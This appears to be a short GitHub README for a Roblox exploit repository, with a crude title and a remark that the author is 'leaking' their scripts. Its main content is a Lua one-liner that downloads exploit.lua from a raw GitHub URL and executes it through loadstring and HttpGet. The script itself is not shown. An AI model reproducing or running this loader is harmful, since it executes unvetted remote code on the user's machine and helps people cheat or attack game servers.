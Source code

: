# manofucker
South is shit, I decided to leak my scripts
loadstring(game:HttpGet("https://raw.githubusercontent.com/tediousmamao/manofucker/main/exploit.lua"))()
